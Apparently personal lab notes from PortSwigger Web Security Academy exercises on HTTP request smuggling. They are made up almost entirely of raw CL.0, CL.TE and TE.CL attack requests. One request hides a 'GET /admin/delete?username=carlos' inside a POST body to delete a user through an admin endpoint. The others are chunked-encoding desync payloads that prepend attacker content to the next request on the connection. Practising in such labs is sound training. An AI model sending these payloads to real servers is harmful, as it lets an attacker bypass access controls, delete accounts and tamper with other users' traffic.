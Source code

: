 # CL.0 Smuggling
- Requires two requests
- Request 1
 ```http
 POST /resources/labheader/images/ps-lab-solved.svg HTTP/1.1
 Host: 0aa300500474aa2f80687b33004b009e.web-security-academy.net
 Connection: keep-alive
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 50
 
 GET /admin/delete?username=carlos HTTP/1.1
 Foo: x
```
- Request 2
 ```http
 GET / HTTP/1.1
 Host: 0aa300500474aa2f80687b33004b009e.web-security-academy.net
 
 
```
- Set the send to single conn and the connection header to keep-alive
- If response to request 2 is normal then the endpoint is not vulnerable

# Basic CL.TE
- Goal was to append G to the next post request
 ```http
 POST / HTTP/1.1
 Host: 0af2006a03d9c59180647651004600d8.web-security-academy.net
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 8
 Transfer-Encoding: chunked
 
 0
 
 G
 
```

# Basic TE.CL
- Same goal as previous, append G to POST
 ```http
 POST / HTTP/1.1
Host: 0a3c0064042c0dd18028491100210087.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
